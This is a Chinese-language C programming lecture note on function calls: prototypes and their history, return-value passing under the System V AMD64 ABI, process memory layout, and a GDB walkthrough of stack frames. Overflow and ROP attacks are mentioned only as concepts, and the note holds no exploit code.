


# Source: https://hackmd.io/s/SJ6hRj-zg

---
tags: DYKC, C, CLANG, C LANGUAGE, function, recursion
---

# [你所不知道的 C 語言](https://hackmd.io/@sysprog/c-prog/)：函式呼叫篇
*函式呼叫和計算機結構的高度關聯*
Copyright (慣C) 2015-2017, 2022, 2026 [宅色夫](https://wiki.csie.ncku.edu.tw/User/jserv)

[直播錄影](https://youtu.be/I0uVqReO0_I)

## 簡介
C 語言的 "function" 不同於[數學上的函數](https://en.wikipedia.org/wiki/Function_(mathematics))，後者對同一輸入恆產出同一輸出且無副作用 (side effect)；C function 容許存取外部狀態、產生副作用甚至不終止，因此我們譯為「函式」以茲區別。貌似直觀的函式呼叫背後隱含著各式議題，諸如 calling convention, application binary interface (ABI), stack 和 heap 等。攻擊者正是利用函式呼叫的機制發動 stack-based buffer overflow 或 Return-oriented programming (ROP) 攻擊：前者覆寫堆疊上的回傳位址，後者串接既有程式碼片段 (gadget) 繞過不可執行記憶體的保護。理解 calling convention 如何安排回傳位址、參數傳遞與堆疊框架，是識別與防禦這類攻擊的基礎。

本講座將帶著學員重新探索函式呼叫背後的原理，從程式語言和計算機結構的發展簡史談起，讓學員自電腦軟硬體演化過程去掌握 calling convention 的考量，伴隨著 stack 和 heap 的操作，再探討 C 程式如何處理函式呼叫、跨越函式間的跳躍 (如 [setjmp](https://man7.org/linux/man-pages/man3/setjmp.3.html) 和 [longjmp](https://linux.die.net/man/3/longjmp))，再來思索資訊安全和執行效率的議題。

## 從 function prototype 談起
其實由 Dennis M. Ritchie (以下簡稱 dmr) 開發的[早期 C 語言編譯器](https://www.nokia.com/bell-labs/about/dennis-m-ritchie/primevalC.html)並未明確要求 function prototype 的順序。dmr 在 1972 年發展的早期 C 編譯器，原始程式碼後來被整理在名為 ["last1120c" 磁帶](https://github.com/LunaStev/legacy-cc/)中，若我們仔細看 [c00.c](https://github.com/LunaStev/legacy-cc/blob/master/last1120c/c00.c) 這檔案，可發現位於第 269 行的 [mapch\(c) 函式定義](https://github.com/LunaStev/legacy-cc/blob/master/last1120c/c00.c#L269)，在沒有 [forward declaration](https://en.wikipedia.org/wiki/Forward_declaration) 的狀況下，就分別於[第 246 行](https://github.com/LunaStev/legacy-cc/blob/master/last1120c/c00.c#L246)和[第 261 行](https://github.com/LunaStev/legacy-cc/blob/master/last1120c/c00.c#L261)呼叫，奇怪吧？

而且只要再瀏覽 [last1120c](https://github.com/LunaStev/legacy-cc/blob/master/last1120c/) 裡頭其他 C 語言程式後，就會發現根本沒有 `#include` 或 `#define` 這一類 [C preprocessor](https://en.wikipedia.org/wiki/C_preprocessor) 所支援的語法，那到底怎麼編譯呢？在回答這問題前，摘錄 Wikipedia 頁面的描述:
> As the C preprocessor can be invoked separately from the compiler with which it is supplied, it can be used separately, on different languages.
> Notable examples include its use in the now-deprecated imake system and for preprocessing Fortran.

原來 C preprocessor 以獨立程式的形式存在，所以當我們用 gcc 或 cl (Microsoft 開發工具裡頭的 C 編譯器) 編譯給定的 C 程式時，會呼叫 cpp (伴隨在 gcc 專案的 C preprocessor) 一類的程式，先行展開巨集 (macro) 或施加條件編譯等操作，再來才會出動真正的 C 語言編譯器 (在 gcc 中叫做 `cc1`)。值得注意的是，1972-1973 年間被稱為 "[Very early C compilers](https://www.nokia.com/bell-labs/about/dennis-m-ritchie/primevalC.html)" 的實作中，不存在 C preprocessor (!)，當時 dmr 等人簡稱 C compiler 為 `cc`，此慣例被沿用至今，而無論原始程式碼有幾個檔案，在編譯前，先用 `cat` (該程式的作用是 "concatenate and print file") 一類的工具，將檔案串接為單一檔案，再來執行 "cc" 以便輸出對應的組合語言，之後就可透過 assembler (組譯器，在 UNIX 稱為 `as`) 轉換為目標碼，搭配 linker (在 UNIX 稱為 `ld`) 則輸出執行檔。

因此，在早期的 C 語言編譯器，強制規範 function prototype 及函式宣告的順序是完全沒有必要的，要到 1974 年 C preprocessor 才正式出現在世人面前，儘管當時的實作仍相當陽春，可參見 dmr 撰寫的〈[The Development of the C Language](https://www.bell-labs.com/usr/dmr/www/chist.html)〉，C 語言的標準化則是另一段漫長的旅程，來自 Bell Labs 的火種，透過 UNIX 來到研究機構和公司行號，持續影響著你我所處的資訊社會。

在早期的 C 語言中，若一個函式之前沒有宣告 (declare)，一旦函式名稱出現在運算式中，後面跟著 `(` 左括號，那它會被解讀為回傳型態為 `int` 的函式，並且對它的參數沒有任何假設。但這樣行為可能會導致問題，考慮以下程式碼:
```c=
#include <stdio.h>

int factorial(int n);

int main(void) {
    printf("%d\n", factorial());
    return 0;
}

int factorial(int n) {
    if (n == 0) return 1;
    return n * factorial(n - 1);     
}
```

`factorial` 函式在被呼叫時，會從堆疊 (stack) 或暫存器中取出整數型態的參數，若忽略第 3 行 function prototype，編譯器將無從正確判斷，在第 6 行傳遞給 `factorial` 函式的參數是否符合預期的型態和數量。過往不用在 C 程式特別做 function prototype 的特性 (implicit function declaration) 已自 C99 標準中移除——C89 §3.3.2.2 允許未宣告的函式識別碼被隱式宣告為 `extern int identifier()`，C99 刪除此規則，使用未宣告函式成為 constraint violation，編譯器須發出診斷訊息。此外，即使 prototype 已在作用域內，呼叫時引數數量不符 (如上方第 6 行少引數) 本身就是 constraint violation (C99 §6.5.2.2¶2：引數數量須與參數數量一致)，編譯器應診斷此錯誤。若編譯器未攔截而程式繼續執行，則屬未定義行為。C23 更進一步：舊式函式定義 (K&R style) 與不帶參數列的函式宣告 `int f()` 均已移除——`int f()` 在 C23 等同 `int f(void)`，不再表示「接受任意參數」。

[GCC 14](https://gcc.gnu.org/gcc-14/porting_to.html) 對 function prototype 貫徹 C 語言規範，過去版本的 GCC 對於程式碼較為寬容，但 GCC 14 會將不符合語言規格的行為視作錯誤:
> The initial ISO C standard and its 1999 revision removed support for many C language features that were widely known as sources of application bugs due to accidental misuse. For backwards compatibility, GCC 13 and earlier diagnosed use of these features as warnings only. Although these warnings have been enabled by default for many releases, experience shows that these warnings are easily ignored, resulting in difficult to diagnose bugs. In GCC 14, these issues are now reported as errors, and no output file is created, providing clearer feedback to programmers that something is wrong.

你或許會好奇，function prototype 的規範還有什麼好處呢？這就要從《[Rationale for International Standard -- Programming Languages -- C](http://pllab.cs.nthu.edu.tw/cs340402/readings/c/c9x_standard.pdf)》(以下簡稱 C9X RATIONALE) 閱讀起，依據第 70 頁 (PDF 檔案對應於第 78 頁)，提到以下的解說範例:
```c
extern int compare(const char *string1, const char *string2);

void func2(int x) {
    char *str1, *str2;
    // ...
    x = compare(str1, str2);
    // ...
}
```

編譯器裡頭的最佳化階段 (optimizer) 可從 function prototype 得知，傳遞給函式 `compare` 的二個指標型態參數，由於明確標注 `const` 修飾子，所以僅有記憶體位址的使用並讀取相對應的內容，但不會因而變更指標所指向的記憶體內容，從而沒有產生副作用 ([side effect](https://en.wikipedia.org/wiki/Side_effect_(computer_science)))。這樣編譯器可有更大的最佳化空間，可對照〈[你所不知道的 C 語言：編譯器和最佳化原理篇](https://hackmd.io/@sysprog/c-compiler-optimization)〉，得知相關最佳化手法。

## 程式語言發展
一如 C9X RATIONALE 提到，現代 C 語言和[其他受 Algol-68 影響的程式語言](https://rosettacode.org/wiki/Function_prototype)，具備 function prototype 機制，這使得編譯時期，就能進行有效的錯誤分析和偵測。無論是 C 語言、B 語言，還是 Pascal 語言，都可追溯到 [ALGOL 60](https://en.wikipedia.org/wiki/ALGOL_60)。

ALGOL 是 Algorithmic Language (演算法使用的語言) 的縮寫，提出巢狀 (nested) 結構和一系列程式流程控制，今日我們熟知的 if-else 語法，就在 [ALGOL 60](https://en.wikipedia.org/wiki/ALGOL_60) 出現。ALGOL 60 和 COBOL 程式語言並列史上最早工業標準化的程式語言。

黑格爾在其 1820 年的著作《法哲學原理》(Grundlinien der Philosophie des Rechts) 提到: (德語原文)
> Was vernünftig ist, das ist wirklich; und was wirklich ist, das ist vernünftig

英語可解讀為 "What is rational is actual and what is actual is rational." (凡是合乎理性的都是現實的，現實的都是合乎理性)，其中 "vernünftig" 和 "Vernuft" (理性) 有關，英譯成 "reasonable" 或 "rational" 都非漢語「合理」的意思。黑格爾認為，宇宙的本原是絕對精神 (der absolute Geist)，它自在地具備著一切，外化出自然界、人類社會、精神科學，最後在更高的層次上回歸自身。像是 C 語言這樣的工業標準，至今仍活躍地演化，當我們回顧發展軌跡時，凡是合乎理性 (vernuftig)，也就必然會出現、或成為現實 (wirklich)，反過來說也成立。甚至我們可推敲 C9X RATIONALE 字裡行間，每個看似死板規則的背後，其實都可追溯出像是上方的討論。
C 語言的演化歷程從早期 C 語言 (1972-1973) 開始，經 K&R C (1976-1979)，到 ANSI C (自 1983 年起，直到 1989 年才完成標準化，即 C89)，最終成為 [ISO/IEC 9899:1990](https://www.iso.org/standard/17782.html) 國際標準。ANSI C 也催生 C++ (1983-)，後者融合 [Simula 67](https://en.wikipedia.org/wiki/Simula) 和 Ada 特色，早期的 C++ 編譯器稱為 [Cfront](https://en.wikipedia.org/wiki/Cfront)，以 "C with classes" 為人所知 (參見 [History of C](http://en.cppreference.com/w/c/language/history))。

許多程式語言允許 function 和 data 一樣在 function 內部定義，但 C 語言不允許這樣的 nested function，換言之，C 語言所有的 function 在語法層面都位於最頂層 (top-level)，儘管 gcc 提供 [nested function](https://gcc.gnu.org/onlinedocs/gcc/Nested-Functions.html) 擴充。「不允許 nested function」簡化 C 編譯器的設計——在 Pascal, Ada, Modula-2, PL/I, Algol-60 這些允許 nested function 的程式語言中，需要一個稱為 static link 的機制來紀錄指向目前 function 的外層 function 的資訊 (即 uplevel reference)。

## 再論 Function


[數學定義的 Function](https://www.cs.colorado.edu/~srirams/courses/csci2824-spr14/functionsCompositionAndInverse-17.html) (函數)：函數 (function) $f : A \to B$ 是一個對應，滿足對所有 $a \in A$，存在惟一 $b \in B$，使得 f 將 a 對應到 b，即 $\forall a \in A, \exists! b \in B$ 使得 $f(a) = b$。其中 A 稱為 f 的定義域 (domain)，B 稱為 f 的對應域 (codomain)，而 $f(a) = \{ f(a) | a \in A \} \subset B$ 稱為 f 的值域 (range)——f 可視為從 A 到 f(A) 的函數。[Function Composition](https://en.wikipedia.org/wiki/Function_composition) 本身可以組合，例如 $g \circ f(x) = g(f(x))$。


Parameter 與 Argument 的區分：Parameter (發音 [pɚ'ræmətɚ](https://cdict.net/q/parameter)) 又稱 formal parameter，指函式定義中的變數 (如 `void foo(int x) {}` 中的 `x`)；Argument 又稱 actual argument，指呼叫時傳入的值 (如 `foo(4)` 中的 `4`)，因此命名慣例是 `argc` (實際參數的數量) 和 `argv` (實際參數的向量)。C++ 甚至有 [Template parameters and template arguments](https://en.cppreference.com/w/cpp/language/template_parameters) 的對應區分。

Wikipedia 的 [entry point 條目](https://en.wikipedia.org/wiki/Entry_point) [備註](https://en.wikipedia.org/wiki/Entry_point#cite_note-8)提到:
> the vector term in this variable's name is used in traditional sense to refer to strings.

但沒有提供參考資料，這慣例來自 BCPL，字串字面值 (string literal) 是有二個元素的向量，分別為其長度和真正的資料 [2]，在《[BCPL 參考手冊](https://www.bell-labs.com/usr/dmr/www/bcpl.html)》中可見 vector 一詞表示字串，而 BCPL 源於 [CPL](http://comjnl.oxfordjournals.org/content/6/2/134.full.pdf)，後者使用 vector 指代一維陣列、matrix 指代二維陣列。C 語言的前身 B 語言設計之初，也參照 BCPL，連同 argc/argv 也帶到 C 語言中。

前述簡介提到 C function 與數學函數的本質差異。以下從形式化角度進一步闡述：為何「函式」不等於「函數」。

摘自 [What is the difference between functions in math and functions in programming?](https://stackoverflow.com/questions/3605383/what-is-the-difference-between-functions-in-math-and-functions-in-programming) 的討論:
> In functional programming you have [Referential Transparency](https://en.wikipedia.org/wiki/Referential_transparency), which means that you can replace a function with its value without altering the program. This is true in Math too, but this is not always true in [Imperative languages](https://en.wikipedia.org/wiki/Imperative_programming).
> ..
> The main difference, is, then, that ALWAYS if you call `f(x)` in math, you will get the same answer, but if you call `f'(x)` in C, the answer may not be the same (to same arguments don't get the same output).

其中 [Imperative languages](https://en.wikipedia.org/wiki/Imperative_programming) 可翻譯為「命令式程式語言」，幾乎所有電腦硬體都採命令式工作，較高階的命令式程式語言使用變數和更複雜的語句，但仍依從相同的典範。

用數學語言來看，數學函數 $f: A \to B$ 滿足: 對同一輸入 $x \in A$，$f(x)$ 的值永遠相同，且計算 $f(x)$ 不改變任何外部狀態。無論計算多少次，$\sin \pi$ 的結果總是 $0$。C 函式則可建模為 $f: \Sigma \times \text{Args} \to \Sigma_\bot \times \text{Value}$，其中 $\Sigma$ 是程式狀態集合 (涵蓋全域變數、記憶體內容、已開啟的檔案、作業系統狀態等)，$\Sigma_\bot = \Sigma \cup \{\bot\}$ 包含不終止的情況。同樣的引數在不同狀態 $\sigma$ 下可產出不同的回傳值與新狀態 $\sigma'$。在 Linux 一類 UNIX 風格的作業系統中，呼叫 [getpid](https://man7.org/linux/man-pages/man2/getpid.2.html) 函式永遠會成功得到某個整數，而且同一個 process (行程) 中，無論 [getpid()](https://man7.org/linux/man-pages/man2/getpid.2.html) 呼叫多少次，必得到同一個整數，但在其他 process 中，[getpid()](https://man7.org/linux/man-pages/man2/getpid.2.html) 會得到另一個數值 —— 回傳值取決於隱含的程式狀態 $\sigma$，而非僅取決於顯式引數。再者，考慮以下 C 程式：
```c
static int counter = 0;
int count() { return ++counter; }
```

此函式沒有顯式引數，但每次呼叫後都回傳不同的結果 —— 因為 `counter` 屬於隱含狀態 $\sigma$ 的一部分，每次呼叫都會將 $\sigma$ 轉換為 $\sigma'$。反之，數學函數的回傳值只依賴於其輸入值，不涉及外部狀態，這種特性就稱為 [Referential Transparency](https://en.wikipedia.org/wiki/Referential_transparency) (參照透明性)。當 C 函式恰好不存取也不修改任何外部狀態時 (即 $\Sigma$ 退化為單元素集合)，其行為便等同於數學函數 —— 這正是 `const` 修飾子與 [pure attribute](https://gcc.gnu.org/onlinedocs/gcc/Common-Function-Attributes.html) 試圖捕捉的語意。

## Process 和 C 程式的關聯
當一支 C 程式經過編譯、連結產生 ELF (Executable and Linkable Format) 執行檔後，核心的 program loader 會將它載入記憶體並建立一個 process。此時 ELF 內的 section (編譯期的邏輯分區) 被重新組合為 process 的 segment (執行期的記憶體區段)，一個 segment 可包含多個屬性相容的 section。Process 看到的位址皆為 virtual memory address (VMA)，核心透過分頁機制將 VMA 對映至實體記憶體，使每個 process 擁有獨立的位址空間。

延伸閱讀:
* [連結器和執行檔資訊](https://hackmd.io/@sysprog/c-linker-loader)
* [編譯器和最佳化原理篇](https://hackmd.io/@sysprog/c-compiler-optimization)

### Process 記憶體布局
前述提到 ELF 的 section 在載入時被重組為 process 的 segment。從 process 的角度觀察這些 segment 在虛擬位址空間中的排列，由低位址至高位址依序為：
 > 以下為 x86-64 搭配 4-level paging (48-bit virtual address) 的布局。5-level paging (57-bit) 的位址範圍不同，詳見核心文件 [`Documentation/arch/x86/x86_64/mm.rst`](https://github.com/torvalds/linux/blob/v6.19/Documentation/arch/x86/x86_64/mm.rst)。


- [ ] Text segment
    存放程式的機械碼 (machine code)，對應 ELF 中的 `.text` section。此區段標示為唯讀且可執行，防止程式意外或惡意地修改自身指令。字串常數 (string literal) 也存於此區段的唯讀區域，這與後續 data segment 的討論直接相關。
- [ ] Data segment
    存放已給定初始值的全域與靜態變數，對應 ELF 的 `.data` section。須留意的是，變數本身的儲存位置與其指向的內容可能分屬不同區段：
```c
int content = 10;                        /* content 位於 data segment */
char *gonzo = "God's own prototype";     /* gonzo (指標) 位於 data segment，
                                            字串常數位於 text segment (唯讀) */
```
- [ ] BSS segment
    全名一般認定為 "Block Started by Symbol"，存放未初始化或初始化為零的全域與靜態變數。ELF 的 `.bss` section 僅記錄此區段的大小而不佔磁碟空間；載入時由核心配置記憶體並清零。可透過 `size` 命令觀察 text、data、bss 三者的大小。
- [ ] Heap
    由低位址向高位址成長，負責執行時期的動態記憶體配置。`malloc`/`free` 在底層透過 `brk`/`sbrk` 系統呼叫 (調整 program break) 或 `mmap` (大區塊配置) 向核心取得空間。後續「藏在 Heap 裡的細節」一節將深入探討 `calloc` 與 `malloc` + `memset` 的差異，以及 `free` 後 chunk 的集中管理機制。
- [ ] Stack
    由高位址向低位址成長。每次函式呼叫時建立一個 stack frame，儲存 return address、區域變數及 callee-saved 暫存器；函式返回時 frame 隨之釋放。這個看似對稱的推入/彈出機制，正是後續「Stack」一節詳細追蹤的主題，也是「stack-based buffer overflow」攻擊得以成立的結構性前提：return address 與區域變數共存於同一塊連續記憶體中。

上述各區段在執行中的 process 可透過 `/proc/<pid>/maps` 直接觀察：
```shell
$ cat /proc/self/maps
55cff6400000-55cff6401000 r-xp  [text]
55cff6602000-55cff678b000 rw-p  [heap]
7fff7e13f000-7fff7e160000 rw-p  [stack]
```

注意 heap 與 stack 分別位於位址空間的兩端，各自向對方成長；中間的未對映區域由核心依需求配置給 `mmap` 等用途。

關於 ELF section 與 process segment 的對應關係，可參閱 [Virtual Memory 與 C 語言的記憶體觀點](http://www.study-area.org/cyril/opentools/opentools/x909.html)。

### 回傳值
理解函式回傳的機制，需要釐清二件截然不同的事情：控制流的返回與資料的傳遞。`ret` 指令只負責「回到哪裡」：它從 stack 頂端 pop 出先前 `call` 推入的返回位址，將其載入 rip，程式便跳回呼叫端繼續執行。至於「回傳什麼值」則完全是另一回事：依 [System V AMD64 ABI](https://github.com/hjl-tools/x86-psABI/wiki/x86-64-psABI-1.0.pdf) 的慣例，整數與指標型態的回傳值放在 `rax` (64-bit) / `eax` (32-bit) 暫存器中，呼叫端在 `call` 返回後直接從該暫存器取值。換言之，C 語言中一行 `return i;` 在組合語言層級實際拆成二個動作：先將 `i` 搬入 `eax`/`rax`，再執行 `ret` 跳回。

回傳值放在暫存器可以提高效能，但當回傳資料放不下暫存器時 (例如較大的 struct)，呼叫端會在 stack 上預留空間，將其起始位址透過隱含參數傳給被呼叫函式，由被呼叫端直接寫入該記憶體區域。以下透過實驗觀察不同大小的 struct 回傳方式，使用 gcc 7.3 於 x86-64 架構編譯 (`gcc -S bigreturn.c -o bigreturn.s`)。

在組合語言片段中，以註解 `/* return */` 標示對應 `return ret;` 的指令，`/* caller */` 標示對應 `Foo b = get_foo();` 的指令。

- [ ] 成員只有 1 個整數

```c
#include <stdio.h>
typedef struct { int a[1]; } Foo;
Foo get_foo()
{
    Foo ret = {};
    return ret;
}
int main() {
    Foo b = get_foo();
    return 0;
}
```

[對應的組合語言](https://godbolt.org/z/N9a4oJ)：struct 僅含一個 `int` (32 bits)，回傳值直接透過 `%eax` 傳遞——`get_foo` 將值搬入 `%eax`，`main` 在 `call` 返回後直接從 `%eax` 取出。因為資料寬度只有 32 bits，使用 32 位元的 `%eax` 而非 64 位元的 `%rax`。

```asm
get_foo:
    pushq   %rbp
    movq    %rsp, %rbp
    movl    $0, -4(%rbp)
    movl    -4(%rbp), %eax  /* return: 將 ret 搬入 %eax */
    popq    %rbp
    ret
main:
    pushq   %rbp
    movq    %rsp, %rbp
    subq    $16, %rsp
    movl    $0, %eax        /* caller: 呼叫 get_foo 並取回傳值 */
    call    get_foo
    movl    %eax, -4(%rbp)  /* caller: 將 %eax 存入區域變數 b */
    movl    $0, %eax
    leave
    ret
```

- [ ] 成員有 2 個整數

```c
typedef struct { int a[2]; } Foo;
```

[對應的組合語言](https://godbolt.org/z/wyFze3)：2 個 `int` 合計 64 bits，恰好塞入一個 `%rax`，因此改用 64 位元暫存器一次搬完。

```asm
    movq    -8(%rbp), %rax          /* return: 將 2 個 int 一次搬入 %rax */
    movl    $0, %eax                /* caller: 呼叫 get_foo */
    call    get_foo
    movq    %rax, -8(%rbp)          /* caller: 從 %rax 取回 2 個 int */
```

- [ ] 成員有 4 個整數

```c
typedef struct { int a[4]; } Foo;
```

[對應的組合語言](https://godbolt.org/z/QaC13r)：4 個 `int` 合計 128 bits，需要二個 64 位元暫存器 `%rax` 和 `%rdx` 分別搬運。這是 System V AMD64 ABI 允許透過暫存器回傳的上限——INTEGER class 最多使用 2 個暫存器 (共 128 bits)。

```asm
    movq    -16(%rbp), %rax         /* return: 前 2 個 int 放入 %rax */
    movq    -8(%rbp), %rdx          /* return: 後 2 個 int 放入 %rdx */
    movl    $0, %eax                /* caller: 呼叫 get_foo */
    call    get_foo
    movq    %rax, -16(%rbp)         /* caller: 從 %rax 取前 2 個 int */
    movq    %rdx, -8(%rbp)          /* caller: 從 %rdx 取後 2 個 int */
```

- [ ] 成員有 8 個整數 (超過暫存器容量，改用記憶體回傳)

```c
typedef struct { int a[8]; } Foo;
```

[對應的組合語言](https://godbolt.org/z/HNCVfp)：8 個 `int` 合計 256 bits，超過 2 個暫存器的容量。此時 ABI 規定呼叫端須在 stack 上預留空間，並將該空間的位址作為隱含的第一個參數透過 `%rdi` 傳入。被呼叫端直接將回傳值寫入該記憶體位址。

呼叫端出現 `leaq` (Load Effective Address) 指令——此處 `leaq -32(%rbp), %rax` 並非存取記憶體內容，而是計算 `rbp - 32` 這個位址本身，將其載入 `%rax` 再轉給 `%rdi`，讓 `get_foo` 知道該把結果寫到哪裡。

```asm
    /* return: get_foo 透過 %rcx (指向呼叫端預留空間) 寫入回傳值 */
    movq    -40(%rbp), %rcx
    movq    -32(%rbp), %rax
    movq    -24(%rbp), %rdx
    movq    %rax, (%rcx)            /* 寫入 int[0..1] */
    movq    %rdx, 8(%rcx)           /* 寫入 int[2..3] */
    movq    -16(%rbp), %rax
    movq    -8(%rbp), %rdx
    movq    %rax, 16(%rcx)          /* 寫入 int[4..5] */
    movq    %rdx, 24(%rcx)          /* 寫入 int[6..7] */
    /* caller: 計算預留空間位址，透過 %rdi 傳入 get_foo */
    leaq    -32(%rbp), %rax
    movq    %rax, %rdi
    movl    $0, %eax
    call    get_foo
```

## Stack
函式呼叫之所以需要 stack，根本原因在於同一個函式可被不同位置呼叫，而且可遞迴呼叫自己 —— 每次呼叫都需要獨立儲存自己的返回位址、參數和區域變數。若把返回位址寫死在函式裡 (hardcoded jump)，那麼同一個函式就只能從一處被呼叫，這顯然行不通。如果改用查表 (lookup table)，那執行時期才決定的間接呼叫 (如 C 的函式指標、C++ 的虛擬函式) 又會讓表格無法事先建好。Stack 以後進先出 (LIFO) 的特性，天然地解決這個問題：每次 `call` 推入返回位址，`ret` 彈出返回位址，巢狀呼叫 (nested call) 自然形成層層堆疊與逐層拆解的對稱結構。
> "nested" 譯作「巢狀」，好懂且符合原文語境，不該譯「嵌套」

stack frame 最好的朋友是 2 個暫存器：stack pointer 和 frame pointer。

### Stack 名詞解釋
x86_64 中與 stack 操作相關的暫存器包括：rip (instruction pointer) 記錄下個要執行的指令位址，rsp (stack pointer) 指向 stack 頂端，rbp (base pointer, frame pointer) 指向 stack 底部。


### 動態追蹤 Stack
用小程式來觀察 stack 的操作: (檔名 `stack.c`)
```c
int funcB(int a) {
    return a + 1;
}

int funcA(int b) {
    return funcB(b);
}

int main() {
    int a = funcA(1);
    return 0;
}
```

編譯時加上 `-g` 以利後續 GDB 追蹤:
```shell
$ gcc -o stack -g -no-pie stack.c
```
> `-no-pie` 編譯選項是抑制 [Position Independent Executables (PIE)](https://www.redhat.com/en/blog/position-independent-executables-pie)，便於後續分析。若你的 gcc 版本較舊，可能沒有該編譯選項，可自行移去。
> PIE 是啟用 [address space layout randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization) (ASLR) 的預備動作，用以強化作業系統核心載入程式時，確保虛擬記憶體的排列不會總是一樣。

透過 gdb 追蹤程式:
```shell
$ gdb -q stack
```

在 GDB 中使用 `disas` 命令將其反組譯，預設是 AT&T 語法，我們可改為 Intel 語法，得到更簡潔的輸出:
```shell
(gdb) set disassembly-flavor intel
```
:::info
以 `(gdb)` 開頭的文字表示在 GDB 輸入的命令
:::
> 關於二者語法的差異，可見 [Intel and AT&T Syntax.](https://imada.sdu.dk/~kslarsen/dm546/Material/IntelnATT.htm)

```shell
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401134 <+0>:     endbr64
   0x0000000000401138 <+4>:     push   rbp
   0x0000000000401139 <+5>:     mov    rbp,rsp
   0x000000000040113c <+8>:     sub    rsp,0x10
   0x0000000000401140 <+12>:    mov    edi,0x1
   0x0000000000401145 <+17>:    call   0x401119 <funcA> # 注意到此處，讀者可先抄寫本位址
   0x000000000040114a <+22>:    mov    DWORD PTR [rbp-0x4],eax # 這段位址也可抄下，函式呼叫的返回位址
   0x000000000040114d <+25>:    mov    eax,0x0
   0x0000000000401152 <+30>:    leave
   0x0000000000401153 <+31>:    ret
End of assembler dump.

(gdb) disas funcA
Dump of assembler code for function funcA:
   0x0000000000401119 <+0>:     endbr64
   0x000000000040111d <+4>:     push   rbp
   0x000000000040111e <+5>:     mov    rbp,rsp
   0x0000000000401121 <+8>:     sub    rsp,0x8
   0x0000000000401125 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401128 <+15>:    mov    eax,DWORD PTR [rbp-0x4]
   0x000000000040112b <+18>:    mov    edi,eax
   0x000000000040112d <+20>:    call   0x401106 <funcB>
   0x0000000000401132 <+25>:    leave
   0x0000000000401133 <+26>:    ret
End of assembler dump.

(gdb) disas funcB
Dump of assembler code for function funcB:
   0x0000000000401106 <+0>:     endbr64
   0x000000000040110a <+4>:     push   rbp
   0x000000000040110b <+5>:     mov    rbp,rsp
   0x000000000040110e <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401111 <+11>:    mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000401114 <+14>:    add    eax,0x1
   0x0000000000401117 <+17>:    pop    rbp
   0x0000000000401118 <+18>:    ret
End of assembler dump.
```

:::info
在 GCC 14 及更新版本中，函式開頭會插入 `endbr64` 指令，這是 [Control-flow Enforcement Technology](https://en.wikipedia.org/wiki/Control-flow_enforcement_technology) (CET) 中 indirect branch tracking (IBT) 的一部分，用以標記合法的間接 `call`/`jmp` 目標，協助防範 JOP/COP 等間接控制流劫持。針對 ROP，CET 另有 shadow stack 機制保護 `ret` 指令。`endbr64` 本身不影響程式邏輯。
:::

接下來我們要逐步觀察進入 function 時 stack 如何變化。將中斷點設定於 `call funcA` 的位置，這樣可以在 CPU 尚未跳入 `funcA` 前暫停，捕捉到 `call` 前後 stack 的差異：
```shell
(gdb) b *0x0000000000401145
Breakpoint 1 at 0x401145: file stack.c, line 10.
(gdb) r
```

看到 `Breakpoint 1` 的訊息，就表示成功觸發中斷點:
```shell
(gdb) p $rbp
$1 = (void *) 0x7fffffffea20

(gdb) p $rsp
$2 = (void *) 0x7fffffffea10
```
此時 stack 示意如下:


> 圖中的 stack 位址 (如 `0x7fffffffea30`) 來自特定執行環境，GDB 預設停用 ASLR，但不同系統的環境變數和 auxiliary vector 大小仍會造成微幅偏移。以下 GDB 輸出以 Ubuntu 24.04 / GCC 14.2.0 重新實驗所得。

在執行 `call funcA` 之後，CPU 做了一件關鍵但隱晦的事：`call` 指令將「下一道指令的位址」(即 `0x40114a`，也就是回到 `main` 後要繼續執行的地方) 自動推入 stack，然後才跳到 `funcA` 的入口。這個被推入的位址就是日後 `ret` 要 pop 出來的返回位址：
```shell
(gdb) x/gx $rsp
0x7fffffffea08: 0x000000000040114a
```

- [ ] `call funcA`


接著進入 `funcA()`。每個函式開頭的 prologue (序言) 負責建立該函式專屬的 stack frame，其指令如下：
```shell
Dump of assembler code for function funcA:
   0x0000000000401119 <+0>:     endbr64
   0x000000000040111d <+4>:     push   rbp
   0x000000000040111e <+5>:     mov    rbp,rsp
   0x0000000000401121 <+8>:     sub    rsp,0x8
   0x0000000000401125 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401128 <+15>:    mov    eax,DWORD PTR [rbp-0x4]
   0x000000000040112b <+18>:    mov    edi,eax
   0x000000000040112d <+20>:    call   0x401106 <funcB>
   0x0000000000401132 <+25>:    leave
   0x0000000000401133 <+26>:    ret
End of assembler dump.
```

- [ ] `push rbp`


- [ ] `mov rbp, rsp`


- [ ] `sub rsp,0x8`


至此，`funcA` 的 stack frame 就已完成。prologue 建立 frame 的三步驟 (`push rbp` → `mov rbp, rsp` → `sub rsp, N`) 與 epilogue 拆除 frame 的動作完全對稱。在函式呼叫尾聲，`funcA` 會執行 `leave`，這是 `mov rsp, rbp` 和 `pop rbp` 的合併簡寫，效果如下：
```
mov rsp, rbp
pop rbp
```

